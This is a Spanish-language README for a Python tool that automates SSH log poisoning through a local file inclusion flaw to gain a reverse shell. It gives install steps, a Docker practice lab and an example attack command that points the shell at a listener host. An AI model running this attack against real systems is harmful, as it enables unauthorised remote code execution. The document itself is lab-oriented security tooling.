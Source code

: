 # Log Poisoning SSH → Automated Reverse Shell

[Herramienta](<autopoisonSSH.py>) escrita en **Python** que permite obtener una **Reverse Shell** de forma automatizada mediante el envenenamiento de los logs relacionados con **SSH**, como **auth.log** o **btmp**. Para lograrlo, es necesario contar con una vulnerabilidad de Inclusión Local de Archivos (**LFI** - Local File Inclusion) o de Lectura Arbitraria de Archivos (Arbitrary File Read), lo que permite acceder y manipular dichos registros.



Las opciones disponibles son las siguientes:

```
usage: autoposionSSH.py [-h] -u TARGET_URL -pm TARGET_PARAM -t-ip TARGET_IP -h-ip HOST_IP [-p TARGET_PORT] [-p-ssh TARGET_SSH_PORT] [-l LISTEN_PORT]

☠️ SSH Log Poisoning with LFI → Automated Reverse Shell ☠️

ej: python3 autopoison.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2

options:
  -h, --help                                 show this help message and exit
  -u, --target-url          TARGET_URL       Target web url with PHP vulnerable file - ej: http://172.17.0.2/vuln.php
  -pm, --target-param       TARGET_PARAM     Target parameter with LFI capability - ej: file
  -t-ip, --target-ip        TARGET_IP        Target IP - ej: 172.17.0.2
  -h-ip, --host-ip          HOST_IP          Host IP - ej: 172.17.0.1
   
  -p, --target-port         TARGET_PORT      Target http port                                                         (default =   80)
  -p-ssh, --target-ssh-port TARGET_SSH_PORT  Target ssh port                                                          (default =   22)
  -l, --listen-port         LISTEN_PORT      Listen port                                                              (default = 4444)
```

---
## ¿Por que usar este Proyecto?

En el caso de que queramos explotar un **Log Poisoning** de la manera tradicional nos encontraremos con el inconveniente que vemos en la captura de pantalla por lo que con el uso de este script evitaremos dicho incovenintente gracias a la librería **paramiko** de **python**.

![Pasted image 20240806161520](https://github.com/user-attachments/assets/73c86309-aaa0-442f-afe7-33b87c10b374)

---
## Descarga

Nos clonamos el repositorio de la siguiente forma:
```bash
git clone https://github.com/Trr0r/autopoisonSSH
cd autopoisonSSH
```

Instalamos las librerías necesarias gracias a **pip3**:
```bash
pip3 install -r requirements.txt
```

---
## Uso

En primer lugar debemos detecar la ruta donde se acontecede el **LFI**:

![Pasted image 20240806161403](https://github.com/user-attachments/assets/9238bfd1-c0f2-4eef-abbf-6729aa0457ca)

En segundo y último lugar ejecutaremos el script pasandole los parámetros necesarios tal y como vemos a continuación:

```shell
python3 autopoisonSSH.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2
```

![Pasted image 20241226190954](https://github.com/user-attachments/assets/756a9fed-e7e5-4718-95a6-3975a1e77ca8)

---
## Puesta en Práctica
[Dockerfile](Dockerfile)

docker build -t logpoisoning_image .
docker run -dit --name ssh_logpoisoning logpoisoning_image

---
### Advertencia legal

> [!WARNING]
> Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
